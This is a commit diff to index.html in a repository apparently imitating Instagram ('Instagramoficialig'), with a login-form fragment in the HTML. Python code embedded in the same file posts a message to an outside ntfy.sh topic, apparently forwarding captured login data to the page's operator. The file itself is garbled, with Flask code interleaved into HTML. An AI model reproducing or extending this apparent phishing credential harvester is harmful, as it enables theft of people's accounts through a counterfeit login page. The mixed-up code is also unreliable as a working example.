

Before and after one commit to Hectorr019/Instagramoficialig, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 245-784 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -121,7 +121,7 @@ def enviar():
       ¿No tienes una cuenta? <a href="#">Regístrate</a>
     </div>
   </div>
-    # Enviar a ntfy.sh
+     Enviar a ntfy.sh
         response = requests.post(
             "https://ntfy.sh/USER_BYN9",  # Cambia YOUR_TOPIC por tu tema único
             data=mensaje.encode('utf-8'),
@@ -135,8 +135,5 @@ def enviar():
     except Exception as e:
         return f"Error al enviar: {str(e)}", 500
 
-if __name__ == '__main__':
-    app.run(host='0.0.0.0', port=8080)
-
 </body>
 </html>
```
